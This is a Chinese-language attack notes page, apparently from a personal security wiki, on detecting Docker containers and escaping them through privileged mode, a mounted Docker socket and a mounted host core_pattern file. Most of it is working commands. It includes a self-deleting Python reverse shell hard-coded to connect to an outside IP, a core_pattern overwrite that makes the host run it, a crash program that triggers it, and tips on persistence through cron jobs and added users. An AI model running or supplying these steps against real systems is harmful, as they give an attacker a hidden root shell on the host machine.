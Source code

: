 ```yaml
---
{"dg-publish":true,"permalink":"/hack/云上攻防/云原生/docker/docker容器逃逸/"}
---
```


### 判断当前的web站点是否为docker搭建
#### 没有拿到权限
端口扫描工具扫描端口
docker映射出的端口服务有docker字样特征 如 80/nginx  80/docker-xxxx
应用对象表现
#### 拿到主机权限
##### 查看/proc/1/cgroup (可能由于权限或者其他原因无有效信息)
```
cat /proc/1/cgroup
```

##### 查看根目录是否有 .dockerenv文件
![](https://s2.loli.net/2024/01/17/WN2MsKTvkeYIwzq.png)

##### 利用mount查看挂载磁盘是否存在docker相关信息

![](https://s2.loli.net/2024/01/17/Qv5jITshwybBLSt.png)

##### 一键检测
```
cd / |ls -al | grep -qi docker && echo "Is Docker" || echo "Not Docker"
```

##### 其他方法：
https://blog.csdn.net/qq_23936389/article/details/131486643

### 三种容器逃逸方法

#### 1.特权模式启动导致
**--privileged=true**
若宿主机为其他权限，为了用root用去去启动docker 会开启特权模式启动
docker run --rm --privileged=true -it xxx
##### 启动靶场

```
docker run --rm --privileged=true -it alpine
```

![](https://s2.loli.net/2024/01/17/3xkVW7glyJPoHcL.png)

##### 检测环境是否为docker

```
cd / | ls -a
```

![](https://s2.loli.net/2024/01/17/XOGgxDbFLRtW1jC.png)
##### 判断特权：
```
cat /proc/self/status | grep CapEff
```
如果为**0000001fffffffff** 或者**0000003fffffffff**则为特权模式 若为其他则相反
![](https://s2.loli.net/2024/01/17/rxP54mlC3yk2HXb.png)

##### 查看目录&特权逃逸

```
fdisk -l
```

![](https://s2.loli.net/2024/01/17/2vJV76QM5gNKqdk.png)


```
mkdir /test   

mount /dev/vda1 /test
```
##### 成功逃逸
![](https://s2.loli.net/2024/01/17/DRhGatCxN7Updzq.png)

后续可通过添加计划任务&&添加用户进行权限维持
### 2.危险挂载导致逃逸
#### 1、挂载Docker Socket逃逸

Docker Socket 用来与守护进程通信即查询信息或者下发命令,如果运维人员挂载启动则会导致逃逸。

##### 挂载启动

```

docker run -itd --name with_docker_sock -v /var/run/docker.sock:/var/run/docker.sock ubuntu

```

##### 检测
如果存在这个文件则漏洞可能存在
```
ls -lah /var/run/docker.sock
```

##### 在容器里安装docker（套娃）
```
docker exec -it with_docker_sock /bin/bash
apt-get update
apt-get install curl
curl -fsSL https://get.docker.com/ | sh
```
##### 实现逃逸
```
docker run -it -v /:/host ubuntu /bin/bash
```
将宿主机目录挂载至/host下
#### 2.挂载宿主机procfs逃逸

procfs是一个伪文件系统，它动态反映着系统内进程及其他组件的状态，如果运维人员挂载启动则会导致逃逸。
##### 挂载启动

```
docker run -it -v /proc/sys/kernel/core_pattern:/host/proc/sys/kernel/core_pattern ubuntu
```

![](https://s2.loli.net/2024/01/19/NXYnkRECBfau2vK.png)
##### 检测

```
find / -name core_pattern
```

![](https://s2.loli.net/2024/01/19/XO89RErf5kjvdZK.png)

如果找到两个 core_pattern 文件，那可能就是挂载了宿主机的 procfs

##### 复现
找到docker工作的绝对路径
```
cat /proc/mounts | grep workdir
```
![](https://s2.loli.net/2024/01/19/8YO1UVjbG29oNxd.png)
```
/var/lib/docker/overlay2/1d76e10287e2f96513e5c76a54ff644aad61d6b1443d2f036bb8f7916e8d3ccb/work
```
创建一个反弹shell的 py脚本并写入到/tmp/.x.py内

```shell
cat >>/tmp/.x.py <<EOF
#!/usr/bin/python3
import  os
import pty
import socket
lhost = "182.92.11.124"
lport = 7777
def main():
   s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
   s.connect((lhost, lport))
   os.dup2(s.fileno(), 0)
   os.dup2(s.fileno(), 1)
   os.dup2(s.fileno(), 2)
   os.putenv("HISTFILE", '/dev/null')
   pty.spawn("/bin/bash")
   os.remove('/tmp/.x.py')
   s.close()
if __name__ == "__main__":
   main()
EOF

```
遇到乱码等情况可安装vim写入  
![](https://s2.loli.net/2024/01/19/ahszXYjAZTfm4HF.png)
给执行权限
```
chmod +x /tmp/.x.py
```

写入到proc 目录下
```
echo -e "|/var/lib/docker/overlay2/1d76e10287e2f96513e5c76a54ff644aad61d6b1443d2f036bb8f7916e8d3ccb/work/tmp/.x.py \rcore    " >  /host/proc/sys/kernel/core_pattern
```

创建x.c文件

```
cat >/tmp/x.c <<EOF
#include <stdio.h>

int main(void)  {
   int *a  = NULL;
   *a = 1;
   return 0;
}
EOF
```

安装gcc编译此文件
```
apt-get update -y && apt-get install  gcc -y

gcc x.c -o x

```

监听端口
![](https://s2.loli.net/2024/01/19/PeucW9zLVYGhQJd.png)
##### 实现逃逸
执行此文件
./x
成功反弹宿主机shell回来
![](https://s2.loli.net/2024/01/19/iKov256xdPCrHjQ.png)
